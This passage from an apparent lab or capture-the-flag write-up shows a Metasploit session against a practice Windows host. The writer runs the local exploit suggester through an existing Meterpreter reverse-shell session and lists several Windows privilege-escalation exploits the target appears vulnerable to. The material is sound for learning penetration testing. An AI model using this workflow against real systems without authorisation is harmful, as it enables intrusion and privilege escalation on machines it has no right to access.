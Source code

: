 The module only requires us to set a session id. Since my initial session died, i got a new one as session 2

```sh
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use post/multi/recon/local_exploit_suggester                              
[*] Using configured payload windows/meterpreter/reverse_tcp                                                                                                                                                                                                  
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> options                                                

Module options (post/multi/recon/local_exploit_suggester):                                                                     

   Name             Current Setting  Required  Description                                                                     
   ----             ---------------  --------  -----------                                                                     
   SESSION                           yes       The session to run this module on                                           
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits                  


View the full module info with the info, or info -d command.                                                                                                                                                                                                  

[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> set session 2                                          
session => 2                                                                                                                   
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...                                                                 
[*] 10.10.10.15 - 188 exploit checks are being tried...     
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41      
[*] 10.10.10.15 - Valid modules for session 2:                                                                                 
============================         
```
I see severall I can use so I will pick the first one that says `vulnerable`.
